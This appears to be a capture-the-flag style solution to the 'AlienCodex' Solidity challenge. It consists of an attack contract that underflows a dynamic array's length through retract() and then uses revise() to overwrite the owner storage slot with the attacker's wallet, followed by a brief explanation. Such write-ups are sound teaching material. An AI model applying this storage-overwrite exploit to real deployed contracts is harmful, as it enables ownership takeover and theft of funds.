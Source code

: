 ```javascript
pragma solidity ^0.6.0;

abstract contract AlienCodex{
    function make_contact() public virtual;
    function record(bytes32 _content) public virtual;
    function retract() public virtual;
    function revise(uint i, bytes32 _content) public virtual;
}

contract AlienCodexAttack {
    function attack(address addr) public {
        AlienCodex ac = AlienCodex(addr);
        ac.make_contact();
        ac.retract(); // underflow to make changable range 2**256-1
        uint start_slot = uint(keccak256(abi.encode(1)));
        uint target_slot = (2**256-1) - start_slot + 1;
        bytes32 content = 0x000000000000000000000001[PUT YOUR WALLET ADDRESS HERE];
        ac.revise(target_slot, content);
    }
}
```


The contract inherits `Ownable`, which contains the variable owner.
The idea here is to replace the `owner` updating the storage (value in slot) forcefully using the function `revise`. This works because after the underflow attack, the array size is `2**256-1`, which menas EVM's address space is reachable.
